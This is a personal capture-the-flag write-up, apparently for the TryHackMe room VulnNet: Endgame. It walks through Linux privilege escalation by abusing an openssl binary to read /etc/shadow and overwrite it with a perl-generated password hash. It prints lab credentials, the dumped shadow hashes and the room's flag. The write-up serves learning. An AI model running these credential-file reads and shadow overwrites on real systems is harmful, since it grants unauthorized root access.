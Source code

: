 
```
Username: system@vulnnet.thm
Password: 8y7TKQDpucKBYhwsb
```

Will run the linpeas and see how we can escalate from here.
![[Pasted image 20231204162146.png]]

I don't know but these SUID bits looks juicy to me.
![[Pasted image 20231204163309.png]]

I am doing something wrong here
![[Pasted image 20231204164010.png]]

From GTFOBINS we got to know that we have read access for Zip and Unzip but have write access for 
openssl

```
 ./openssl enc -in /etc/shadow
```
![[Pasted image 20231204184335.png]]

```
system@vulnnet-endgame:~/Utils$ ./openssl enc -in /etc/shadow
root:$6$cB/S/D17$1FhKwiSpNpdxPcWJ4q91KOsJzucvpeTr8v9CRPaNmDF5SF64BcTHwR1Bx4xP3RqxK52.uZ38MHH4rQxamADb
system:$6$9oaZwdNG$jrpl883V5yMMdPAFvncio.JaEw3lx7by788qoORBJ1pV5OSGlfBX/ZjkI6qAEf.7Imb7rs6iaBlI4RBxcn
```

Will create a password and will try to write it on the root shadow file using the openssl 
![[Pasted image 20231204185150.png]]

We will be using this post to generate the password
https://unix.stackexchange.com/questions/52108/how-to-create-sha512-password-hashes-on-command-line

```
perl -e 'print crypt("password","\$6\$saltsalt\$") . "\n"'  
$6$saltsalt$qFmFH.bQmmtXzyBY0s9v7Oicd2z4XSIecDzlB5KiA2/jctKu9YterLp8wwnSq.qc.eoxqOmSuNp2xS0ktL3nh/
```
![[Pasted image 20231204185114.png]]

```
./openssl enc -in "/etc/shadow" > /tmp/t
nano /tmp/t
cat /tmp/t | ./openssl enc -out "/etc/shadow"
```

And with little tweak and little scripting knowledge we were able to get the root flag
![[Pasted image 20231204185609.png]]

```
THM{1d42edbb03c0b287a8d0d8a265dce012}
```

This is the write up that i have followed when i got stuck somewhere for more period of time
https://salmonsec.com/blog/2022/november/tryhackme_vulnnetendgame#google_vignette


So enumeration was basic that i use to do what i have learnt is the read and write the shadow file using Path escalation Capabilities
I have right like using Linpeas and Gtfobins
but i didn't know that i was read and write the file using it.